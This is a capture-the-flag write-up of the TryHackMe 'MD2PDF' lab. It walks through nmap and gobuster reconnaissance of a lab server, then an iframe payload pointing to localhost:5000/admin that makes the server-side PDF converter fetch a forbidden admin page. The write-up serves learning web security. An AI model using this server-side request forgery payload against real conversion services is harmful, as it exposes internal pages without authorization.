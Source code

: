# MD2PDF

In this challenge we have a website that allow us to convert markdown file to pdf file.
<img src="https://github.com/DJumanto/TryHackMe/blob/main/MD2PDF/page.jpeg?raw=true" alt="main page">

## Reconnaissance
First of all, let's do the enumeration for all open port
```bash
──(djumanto㉿localhost)-[~/Documents/TryHackMeNew/TryHackMe/MD2PDF]
└─$ nmap -sV -sC -oN nmap/initials 10.10.244.196  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-30 13:47 WIB
WARNING: Service 10.10.244.196:80 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for 10.10.244.196
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 adc5b4a56539d0199ff2ec595aebc70d (RSA)
|   256 baaa15913ccb83722b9986a652b1e7d2 (ECDSA)
|_  256 756c419f275dda3445b72a7baabeeee6 (ED25519)
80/tcp open  rtsp
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2660
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <meta
|     name="viewport"
|     content="width=device-width, initial-scale=1, shrink-to-fit=no"
|     <link
|     rel="stylesheet"
|     href="./static/codemirror.min.css"/>
|     <link
|     rel="stylesheet"
|     href="./static/bootstrap.min.css"/>
|     <title>MD2PDF</title>
|     </head>
|     <body>
|     <!-- Navigation -->
|     <nav class="navbar navbar-expand-md navbar-dark bg-dark">
|     <div class="container">
|     class="navbar-brand" href="/"><span class="">MD2PDF</span></a>
|     </div>
|     </nav>
|     <!-- Page Content -->
|     <div class="container">
|     <div class="">
|     <div class="card mt-4">
|     <textarea class="form-control" name="md" id="md"></textarea>
|     </div>
|     <div class="mt-3
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     RTSP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|_    Content-Length: 0
```
Well, it seems that we able to access via http and ssh. But since we don't have any information about either username, password, or private key, the next thign i would do is directory brute.
```bash
sudo gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.24
[sudo] password for djumanto: 
Sorry, try again.
[sudo] password for djumanto: 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.244.196/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              py,ssh,php,html,js
[+] Timeout:                 10s
===============================================================
2023/04/30 13:57:36 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 403) [Size: 166]
/convert              (Status: 405) [Size: 178]
Progress: 39880 / 525990 (7.58%)
``` 

we unable to access the admin page
<img src="https://github.com/DJumanto/TryHackMe/blob/main/MD2PDF/admin.jpg?raw=true" alt="admin page">

And convert is endpoint for converting our markdown file

## Exploiting
Tags for this challenge is XSS and SSRF. So what cross into my mind was, what if we able to print the content of **admin** page. Since it was processed on the server, then we will able to access the content of **/admin** using iframe. Let's just get into it.
```html
<iframe src="http://localhost:5000/admin"> </iframe>
```
<img src="https://github.com/DJumanto/TryHackMe/blob/main/MD2PDF/retrieve-admin-trial.jpg?raw=true" alt="trial">

There you go

<img src="https://github.com/DJumanto/TryHackMe/blob/main/MD2PDF/flag.jpg?raw=true" alt="flag">
